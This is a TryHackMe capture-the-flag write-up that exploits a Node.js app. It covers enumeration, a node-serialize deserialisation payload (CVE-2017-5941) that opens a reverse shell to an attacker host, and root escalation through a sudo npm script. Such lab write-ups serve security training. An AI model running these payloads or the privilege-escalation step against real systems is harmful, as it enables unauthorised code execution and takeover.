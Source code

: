 # Try Hack Me - Jason

**Categories:**  Security, nodejs, deserialisation, web
**Difficulty:**  Easy

Commands used in this guide use the exported variable $IP (`export IP=10.10.232.30`) in place of the target machine's IP address.

## 1: Enumeration - nmap

Having launched the machine, we perform a basic TCP port scan with nmap (`sudo nmap $IP`) followed by a version enumeration scan on the 2 discovered ports (22 and 80) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ sudo nmap -p22,80 -sV $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-08 16:46 EDT
Nmap scan report for 10.10.232.30
Host is up (0.100s latency

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=10/8%Time=6160AE32%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,E4B,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/html\r\nDat
...snip...
```

Google and searchsploit return no relevant vulnerabilities for the discovered SSH version. Navigating to the application on 80 shows reveals a placeholder screen with "built by nodejs" and an email sign-up input field :

```html
...snip...
<h4>Built with Nodejs</h4>
<br>
<h3>Coming soon! Please sign up to our newsletter to receive updates.</h3>
<br>
<h2>Email address:</h2>
<input type="text" id="fname" name="fname"><br><br>
<a class="button-line" id="signup">Submit</a>
...snip...
```

Usually we would continue with a gobuster scan to provide more information on the web application, but further exploration of the email sign-up functionality already gives us a possible exploitation opportunity - we can always come back to gobuster if we need it.

## 2: Web application - curl, cookies

Investigating the request made by the email sign-up field shows that it makes a POST request with the user input as a query param, and returns a base64 encoded cookie : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ curl -X POST $IP/?email=TESTER -I
HTTP/1.1 200 OK
Set-Cookie: session=eyJlbWFpbCI6IlRFU1RFUiJ9; Max-Age=900000; HttpOnly, Secure
Content-Type: text/html
Date: Fri, 08 Oct 2021 20:53:41 GMT
Connection: keep-alive
Transfer-Encoding: chunked
```

Decoding the cookie shows that it contains a JSON object with our user input assigned to the key "email" :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ echo "eyJlbWFpbCI6IlRFU1RFUiJ9" | base64 -d
{"email":"TESTER"}
```

Making the same request in the browser also triggers a page reload, after which the user provided input is displayed on the page : 

```html
    <h3>We'll keep you updated at: TESTER</h3>
```

So what's happening here? The code that handles the request is available in the page source, but there are 4 basic steps :

1. A POST request sends the user's input to the server in the `?email=` query param
2. The server responds to the POST request with a SetCookie header with a base64 encoded JSON object containing the user input
3. The page is reloaded (see `window.location.reload` in the source), making a GET request that sends the new cookie back to the server
4. The server responds to the GET request, adding the value received in the cookie to the "We'll keep you updated at: VALUE"

So the most obvious potential vulnerability is XSS, but this isn't going to help us in the context of a CTF (and doesn't actually work - we'll see why later). But we now have enough information to suspect that something might be going on here with nodejs's handling of user provided JSON input. A google search for "nodejs json vulnerabilities" throws up an article on a [JSON deserialisation bug in the npm package "node-seralize"](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

## 3: Foothold - CVE-2017-5941

Understanding the vulnerability requires some prior knowledge of node and javascript.

Firstly, the "node-serialize" package allows for javascript objects to be [serialised](https://en.wikipedia.org/wiki/Serialization) - essentially, to be turned into strings for inclusion in databases, HTTP requests, etc. The package also provides a method "unserialize" which performs the reverse operation - transforming serialized strings into javascript objects. This and similar packages have mostly been replaced by the JSON.stringify and JSON.parse built-ins in modern javascript.

Secondly, JavaScript includes [Immediately Invoked Function Expressions](https://en.wikipedia.org/wiki/Immediately_invoked_function_expression)(IIFE) - these are just functions are executed at the same time as they are defined :

```console
┌──(kali㉿kali)-[~]
└─$ node
Welcome to Node.js v16.11.0.
Type ".help" for more information.
> ( function(){ console.log('Immediately invoked!'); })()
Immediately invoked!
```

You might already be able to see where this is going - when objects passed to node-serialize's "unserialize()" method include an IIFE, these functions are executed during deserialisation. The article provides an example of RCE exploiting this vulnerability, and we'll use this same example to get "unserialize()" to execute a reverse shell.

Just like the article, we generate a node reverse shell using [nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ ./nodejsshell.py ATTACK-IP 4444
[+] LHOST = ATTACK-IP
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116...snip...
```

Now we might think that we can wrap this reverse shell in an IIFE and copy it to the web app's email field. This doesn't work, and the article explains why - the unserialize() method only executes IIFEs if it recognises them as functions serialized by node-serialize's "serialize()" method (keep up now). So at this point we could start a new node project, import node-serialize, pass our reverse shell through serialize, etc. etc., or we could just read the article and steal the "_$$ND_FUNC$$_" flag used by serialize() to indicate a function. After adding this flag to our IIFE'd reverse shell, our exploit script should look something like this :

```js
_$$ND_FUNC$$_function(){eval(String.fromCharCode(...snip...))}()
```

If the application works as expected, we shouldn't have to encode this for inclusion in the cookie - we can just paste it as regular input into the email field and let the application encode it, set it as cookie, and send it back to the server with `window.location.reload`. We start a listener on the attack machine, submit the exploit through the email field, and the reverse shell successfully connects :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.232.30] 50822
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
```

The user flag is at `/home/dylan/user.txt`.

## 4. Privesc dylan -> root - npm GTFObin

Running `sudo -l` as the dylan user shows that they can run `/usr/bin/npm` as all users without a password : 

```console
sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

If you're familiar with nmp, you will know that it can execute commands and scripts defined in a `package.json` file with `nmp run`. If you're not familiar with npm, [GTFObins](https://gtfobins.github.io/gtfobins/npm/) will tell you the same thing. We start by creating a simple `package.json` file that defines a command "start" that executes "/bin/bash" (these commands are run on the target as dylan - our current shell isn't the best but it doesn't matter here) :

```console
echo '{"scripts": {"start": "/bin/bash"}}' > ./package.json
```

and we can then execute the start command using `npm run` as root :

```console
sudo npm run start

> @ start /home/dylan
> /bin/bash

id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`. 

I mentioned earlier that XSS attacks on the apparently vulnerable email field don't work - but why not? Take a look at `/opt/webapp/server.js`, where values received from the cookie are passed through an XSS filter :

```js
var email = xssFilters.inHTMLData(obj.email).substring(0,20);
$('h3').replaceWith(`<h3>We'll keep you updated at: ${email}</h3>`);
```

Dylan's not so bad at security after all!
